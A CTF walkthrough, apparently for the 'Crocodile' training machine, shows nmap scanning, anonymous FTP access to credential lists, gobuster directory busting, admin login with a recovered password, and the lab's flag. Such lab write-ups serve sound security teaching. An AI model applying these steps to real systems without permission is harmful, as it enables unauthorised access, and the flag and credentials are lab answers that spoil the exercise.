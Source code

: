 # CTF Walkthrough: Crocodile

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** FTP, Gobuster, Directory busting     
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.1.15`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            21/tcp open  ftp     vsftpd 3.0.3
            | ftp-syst:
            |   STAT:
            | FTP server status:
            |      Connected to ::ffff:10.10.14.170
            |      Logged in as ftp
            |      TYPE: ASCII
            |      No session bandwidth limit
            |      Session timeout in seconds is 300
            |      Control connection is plain text
            |      Data connections will be plain text
            |      At session startup, client count was 1
            |      vsFTPd 3.0.3 - secure, fast, stable
            |_End of status
            | ftp-anon: Anonymous FTP login allowed (FTP code 230)
            | -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
            |_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
            80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
            |_http-title: Smash - Bootstrap Business Template
            |_http-server-header: Apache/2.4.41 (Ubuntu)
            Service Info: OS: Unix
            ```

2. Log in to FTP with Anonymous
    - Command: `ftp anonymous@10.129.1.15`

3. In FTP
    - List all files
        - Command: `ls`
            - Output:
                ```
                -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
                -rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
                ```
    - Download both files
        - Command: 
            ```
            get allowed.userlist
            get allowed.userlist.passwd
            ```
4. Show contents of the files
    - Command: `cat allowed.userlist`
        - Output:
            ```
            1   │ aron
            2   │ pwnmeow
            3   │ egotisticalsw
            4   │ admin
            ```
    - Command: `cat allowed.userlist.passwd`
        - Output:
            ```
           1   │ root
           2   │ Supersecretpassword1
           3   │ @BaASD&9032123sADS
           4   │ rKXM59ESxesUFHAd
            ```
5. Add 10.129.1.15 to /etc/hosts
    - Command: `sudo vim /etc/hosts`
        - Output:
            ```
            10.129.1.15 crocodile.htb
            ```

6. Directory bust
    - Command: `gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u crocodile.htb -x .php`
        - Output:
            ```
            ===============================================================
            Starting gobuster in directory enumeration mode
            ===============================================================
            ...
            /login.php            (Status: 200) [Size: 1577]
            ...
            ```
7. Log in to `crocodile.htb/login.php`
    - Username: admin
    - Password: rKXM59ESxesUFHAd

8. Get Flag
    - Flag: c7110277ac44d78b6a9fff2232434d16


